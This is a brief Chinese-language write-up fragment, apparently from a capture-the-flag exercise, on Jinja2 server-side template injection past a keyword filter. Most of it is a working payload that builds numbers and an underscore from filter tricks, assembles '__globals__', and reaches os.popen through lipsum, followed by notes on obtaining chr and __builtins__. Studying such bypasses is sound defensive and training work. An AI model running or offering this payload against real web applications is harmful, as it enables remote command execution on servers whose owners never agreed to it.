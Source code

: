 ![alt text](image-8.png)
![alt text](image-10.png)
被过滤了
```
{%set one=dict(c=a)|join|count%}
{%set two=dict(cc=a)|join|count%}
{%set three=dict(ccc=a)|join|count%}
{%set four=dict(cccc=a)|join|count%}
{%set five=dict(ccccc=a)|join|count%}
{%set six=dict(cccccc=a)|join|count%}
{%set seven=dict(ccccccc=a)|join|count%}
{%set eight=dict(cccccccc=a)|join|count%}
{%set nine=dict(ccccccccc=a)|join|count%}
{%set pop=dict(pop=a)|join%}
{%set xiahuaxian=(lipsum|string|list)|attr(pop)(three*eight)%}
{%set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join%}
{%set get=dict(get=a)|join%}
{%set shell=dict(o=a,s=b)|join%}
{%set pp=dict(po=a,pen=b)|join%}
{%print lipsum|attr(globals)|attr(get)(shell)|attr(pp)%}
```
获取chr
首先要获取__builtins__